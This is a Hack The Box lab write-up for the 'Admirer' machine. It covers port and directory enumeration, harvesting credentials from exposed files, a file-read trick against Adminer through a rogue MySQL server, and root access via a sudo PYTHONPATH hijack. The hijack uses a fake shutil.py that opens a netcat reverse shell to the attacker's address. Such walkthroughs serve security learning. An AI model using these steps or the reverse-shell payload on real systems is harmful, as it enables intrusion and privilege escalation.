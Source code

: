 # [Admirer](https://app.hackthebox.com/machines/admirer)

```bash
nmap -p- --min-rate 10000  10.10.10.187 -Pn
```

![Alt text](img/image.png)

After knowing open ports (21,22,80), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p21,22,80 10.10.10.187 -Pn 
```

![Alt text](img/image-1.png)


While browsing 'robots.txt' file on HTTP server, I see that '/admin-dir' is prohibited, but it's not , I have access to this endpoint (forbidden).

![Alt text](img/image-2.png)


Let's do directory enumeration for '/admin-dir' endpoint.

```bash
gobuster dir -u http://10.10.10.187/admin-dir/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40 -x txt
```

![Alt text](img/image-16.png)

From this enumeration, I see that 'contacts.txt' and 'credentials.txt' files.

![Alt text](img/image-3.png)

I got sensitive credentials of FTP server.

ftpuser : %n?4Wz}R$tTF7


I get all files from FTP server `mget *`.

![Alt text](img/image-4.png)


From **'dump.sql'** file, I don't get anything.


But from '**html.tar.gz**' file, I got below sensitive credentials.


From 'utility-scripts', there is file called 'db_admin.php' 

![Alt text](img/image-5.png)


I grab below credentials from here.

waldo:Wh3r3_1s_w4ld0?

But doesn't work on anywhere.


I found  'adminer.php' for 'utility-scripts' on HTTP server.

For the version of 'Adminer' product, I found CVE.

That's CVE number called **'CVE-2021-43008'**.


![Alt text](img/image-8.png)

![Alt text](img/image-7.png)

I need to change also 'bind-address' value into **'0.0.0.0'** as because external connections work.

Also don't forget to create table.
```sql
create table test(content varchar(5000))
```




Now, I just enter my malicious SQL command to read system files.

```sql
LOAD DATA LOCAL INFILE '../index.php'
INTO TABLE test
FIELDS TERMINATED BY "\n"
```


![Alt text](img/image-9.png)


![Alt text](img/image-10.png)


Let's read data like this.

```bash
select * from test;
```

![Alt text](img/image-11.png)


I grab credentials from here.

waldo: &<h5b~yK3F#{PaPB&dA}{H>


Let's login into SSH via these credentials.


user.txt

![Alt text](img/image-12.png)


For privilege escalation, I just run `sudo -l` command and see the results.

![Alt text](img/image-13.png)

Let's read this file.

![Alt text](img/image-14.png)


Here, we see that '/opt/scripts/backup.py' file is performed.

Let's read this.

![Alt text](img/image-15.png)


Here, I see that from 'shutil.py' file , 'make_archive' method is executed for legitimate purposes.

Now, I just create malicious shutil.py file and create method (make_archive) which contains reverse shell script.

```python
def make_archive(a,b,c):
	__import__('os').system('nc -e /bin/sh 10.10.14.10 1337')
```

![Alt text](img/image-17.png)


Now, while we execute our SUDO script , we need to specify PYTHONPATH location that Python automatically selects our malicous `shutil.py` file.

```bash
sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh
select 6 # as because I modify content on here
```

![Alt text](img/image-18.png)


We got reverse shell from port (1337)

![Alt text](img/image-19.png)

root.txt

![Alt text](img/image-20.png)